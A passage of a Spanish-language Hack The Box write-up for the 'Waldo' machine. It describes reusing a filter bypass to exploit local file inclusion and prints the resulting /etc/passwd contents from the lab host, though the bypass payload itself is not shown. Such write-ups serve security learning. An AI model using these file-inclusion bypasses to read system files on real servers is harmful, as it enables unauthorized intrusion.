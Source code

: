 No, tampoco funciona, se debe aplicar otro filtro. Probemos con el mismo bypass que utilizamos para el directory listing, a ver si funciona.

<div align="center">
  <img src="/assets/images/HTB/writeup-waldo/lfi-etc-passwd.png" alt="Bypass del filtro.">
</div>

Vemos que funcionó correctamente y obtuvimos la lectura del archivo **/etc/passwd**, pero se ve un poco desordenado.

Vamos a separar mejor el salto de línea.

```ruby
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/home/nobody:/bin/sh
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```
